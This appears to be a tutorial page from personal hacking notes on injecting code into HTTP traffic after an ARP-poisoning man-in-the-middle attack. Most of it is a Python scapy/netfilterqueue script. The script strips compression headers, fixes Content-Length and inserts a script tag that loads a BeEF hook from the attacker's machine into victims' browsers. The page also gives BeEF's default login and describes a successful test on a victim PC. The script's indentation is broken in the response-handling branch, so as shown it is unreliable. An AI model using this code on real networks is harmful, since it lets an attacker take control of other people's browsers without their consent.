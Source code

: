 ```yaml
---
title: "HTTP code injection & BeEF"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data on the fly.  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

Since most clients will request [content encoding][http_compression] (by adding a "Accept-Encoding" header), the HTTP response data (scapy.Raw layer) will look like gibberish.  
This is is because the data is GZIPPED most of the time. To get around this we can simply delete this header from the HTTP request!  
https://en.wikipedia.org/wiki/HTTP_compression

We also need to make sure we change the size of the "Content-Length" value to match with our injected code.   
Otherwise the client browser will not accept the server response.  

In the below example code we then use BeEF on our attacker machine. BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser. The key to success with BeEF is to "hook" a browser. This basically means that we need the victim to visit a vulnerable web app (or as shown in the below code example just by browsing to a HTTP website that has a particular string in the body text). This injected code in the "hooked" browser then responds to commands from the BeEF server. From there, we can do a number of malicious things on the victim's computer.  

On Parrot OS i first opened BeEF Framework and then logged in with the default credentials for BeEF: beef/beef at:
http://localhost:3000/ui/authentication

![beef](beef.jpg)

In the below example we are modifying HTTP responses and injecting the BeEF Hook javascript code into it. Evil stuff :-P  

I successfully tested all this on a Windows 10 victim PC with Chrome browser by visiting a HTML site that had a particular string in the body and replacing this with injected code.

I then verified the browser was hooked in BeEF on my attacker machine. Then i succesfully send a JS alert via BeEF (commands > browser > hooked domain > create alert dialog). 

```python

# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy
import re

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum

    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        load = scapy_packet[scapy.Raw].load
        if scapy_packet[scapy.TCP].dport == 80:
            print("[+] Request")
            load = re.sub("Accept-Encoding:.*?\\r\\n", "", scapy_packet[scapy.Raw].load)

        elif scapy_packet[scapy.TCP].sport == 80:
          print("[+] Response")
                print(scapy_packet.show())
                injection_code = '<script src="http://192.168.178.18:3000/hook.js"></script>'
                load = scapy_packet[scapy.Raw].load.replace('<meta property="og:title" content="Home"/>', injection_code)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))

        if load != scapy_packet[scapy.Raw].load:
            new_packet = set_load(scapy_packet, load)
            packet.set_payload(str(new_packet))
    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
